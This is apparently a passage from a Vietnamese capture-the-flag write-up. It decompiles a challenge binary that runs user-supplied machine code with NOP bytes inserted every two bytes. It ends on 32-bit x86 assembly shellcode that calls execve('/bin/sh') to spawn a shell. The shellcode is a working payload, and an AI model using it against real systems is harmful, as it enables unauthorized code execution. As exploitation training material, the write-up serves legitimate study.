 ```c
  if ( !a1 || !a2 )
    exit(1);
  v8 = 2 * a2;
  v7 = 2 * a2;
  v2 = alloca(16 * ((2 * a2 + 16) / 0x10u));
  v6 = (int (*)(void))v5;
  v9 = 0;
  for ( i = 0; v8 > i; ++i )
  {
    if ( (int)i % 4 > 1 )
    {
      *((_BYTE *)v6 + i) = -112;
    }
    else
    {
      v3 = v9++;
      *((_BYTE *)v6 + i) = *(_BYTE *)(v3 + a1);
    }
  }
  *((_BYTE *)v6 + v8) = -61;
  v5[2] = v6;
  return v6();
}
```
**- Mô tả chương trình:**
Tại hàm main, ta sẽ coi v4 là buf mà ta nhập, còn v5 biến tạm khi hàm fgetc đọc từng kí tự trả về, đầu tiên sẽ dùng hàm fgetc để đọc từng kí tự từ stdin lưu vào v4, Dừng khi gặp '\n' hoặc đủ 999 kí tự. Rồi chương trình cho thực thi hàm execute() với tham số thứ nhất là chuỗi buf và tham số thứ 2 là độ dài của buf. Độ dài được tăng dần ở dòng ++*(_DWORD *)((char *)v5 + 1);
Tại hàm execute()
v8 = v7 = len*2 : biến lưu gấp đôi độ dài buf
sau đó cấp phát vùng nhớ trên stack với kích thức 2*len.
Biến v6 đc khai báo để gán về vùng v5, và sau đó được sử dụng như 1 con trỏ trỏ tới hàm
Tới vào lặp với các chỉ số %4 > 1 thì sẽ copy byte từ input, còn lại sẽ điền byte 0x90 (NOP: No Operation ko thực thi gì chỉ tiến tới lệnh kế) xẽn kẽ vào dữ liệu nhập. Tức là ở các vị trí chẵn của shellcode vì mỗi lệnh có độ dài 2 byte.
cuối cùng thêm 0xC3 vào cuối (0xC3 chính là lệnh ret trong x86). Cuối cùng thực thi v6() thực thi code ở buffer vừa filter
**Tóm lại, chương trình cho phép người dùng nhập “machine code” để chạy trực tiếp, nhưng với điều kiện xen thêm NOP ở mỗi 2 byte.**

**- Phân tích chương trình:**
Vậy chương trình hướng đến việc ta thêm nhập vào input 1 shellcode hợp lệ nhưng phải vẫn chạy đc khi bị chèn thêm các NOP để thực thi execve("/bin/sh")
## Khai thác lỗ hổng:
### Với shellcode 32 bit thường:
- Ta có đoạn code asm sau:
```asm
;Tạo chuỗi '//bin/sh'
xor eax, eax    
push eax        
push '//sh'
push '/bin'

;Thiết lập các tham số
mov ebx, esp  
xor ecx, ecx
xor edx, edx

;Gọi execve()
mov al, 0x0b
int 0x80
```